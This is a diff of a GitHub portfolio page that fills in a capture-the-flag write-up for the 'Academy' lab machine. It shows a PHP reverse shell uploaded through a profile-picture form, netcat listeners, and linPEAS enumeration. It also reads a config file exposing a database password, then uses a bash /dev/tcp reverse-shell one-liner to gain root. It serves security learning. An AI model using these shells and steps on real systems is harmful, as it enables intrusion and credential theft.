

Before and after one commit to selidrium/CyberSecurity-Portfolio, a Markdown page: EthicalHacking/Academy/WriteUp.md, the part around one of its changes. Shown at 84% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

```diff
--- a/EthicalHacking/Academy/WriteUp.md
+++ b/EthicalHacking/Academy/WriteUp.md
@@ -71,34 +70,88 @@ Explain how you approached exploiting the challenge:
 
 -using the web browser, i accessed /academy and logged in using the login info
 
+![Login Page](./img/login.png)
+
+I clicked around the website and saw a profile page where I could upload a picture,
+perfect opportunity for a reverse shell.
+
+I used https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
+and saved it onto a file called shell.php
+I used netcat to set up a listening port on my machine to let me know if i popped a shell
+-└─$ nc -nvlp 1234
 
 
-- Vulnerabilities or weaknesses identified
-- Tools used (exploit frameworks, custom scripts, etc.)
-- Step-by-step breakdown of the exploitation process
-- Screenshots, code snippets, or command outputs to illustrate each step
+successfully uploaded file onto student profile pic
+
+![Login Page](./img/shell.png)
+
+└─$ nc -nvlp 1234
+listening on [any] 1234 ...
+connect to [192.168.64.2] from (UNKNOWN) [192.168.64.4] 35406
+Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
+ 23:50:25 up  3:33,  1 user,  load average: 0.00, 0.58, 1.07
+USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
+root     tty1     -                06:39   17:10m  0.36s  0.22s -bash
+uid=33(www-data) gid=33(www-data) groups=33(www-data)
+/bin/sh: 0: can't access tty; job control turned off
+$ whoami
+www-data
+
 
 ## Privilege Escalation
 If applicable, describe how you escalated privileges:
-- Any misconfigurations or vulnerabilities identified
-- Exploits or techniques used for privilege escalation
-- Detailed explanation of how you gained higher-level access
+
+saved linpeas onto my device to upload it to my target
+https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
+
+ran linpeah.sh on the target and found some interesting information:
+    grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash
+    * * * * * /home/grimmie/backup.sh
+
+    $ cat /var/www/html/academy/includes/config.php
+    <?php
+    $mysql_hostname = "localhost";
+    $mysql_user = "grimmie";
+    $mysql_password = "My_V3ryS3cur3_P4ss";
 
 ## Flag Retrieval
 Detail how you located and captured the flag(s):
-- Method used to identify the flag location
-- Exact flag(s) content and format
-- Proof of flag retrieval (screenshot or flag content)
+I set up a listening port on my machine and ran a single line shell on the target device:
+  bash -i >& /dev/tcp/192.168.64.2/8081 0>&1
 
-## Conclusion
-Summarize your experience and takeaways from the challenge:
-- Lessons learned during the CTF
-- New skills or knowledge gained
-- Challenges faced and how you overcame them
-- Shoutouts or acknowledgments to teammates or resources
+      └─# nc -nvlp 8081
+      listening on [any] 8081 ...
+      connect to [192.168.64.2] from (UNKNOWN) [192.168.64.4] 57998
+      bash: cannot set terminal process group (12851): Inappropriate ioctl for device
+      bash: no job control in this shell
+      root@academy:~# whoami
+      whoami
+      root
+
+-Verified root access
+
+      root@academy:~# cd root
+      cd root
+      bash: cd: root: No such file or directory
+      root@academy:~# ls
+      ls
+      flag.txt
+
+- Flag has been found
+
+      root@academy:~# cat flag.txt
+      cat flag.txt
+      Congratz you rooted this box !
+      Looks like this CMS isn't so secure...
+      I hope you enjoyed it.
+      If you had any issue please let us know in the course discord.
+
+      Happy hacking !
+      root@academy:~#
+
 
 ## Resources
 List any external sources, tools, or references you used:
-- Official documentation
-- Write-ups from other participants (if referred)
-- Tools or frameworks used
+- https://netcat.sourceforge.net/
+- https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
+- https://github.com/OJ/gobuster
```
Also changed, not shown: other parts of EthicalHacking/Academy/WriteUp.md (+0 -1 lines).
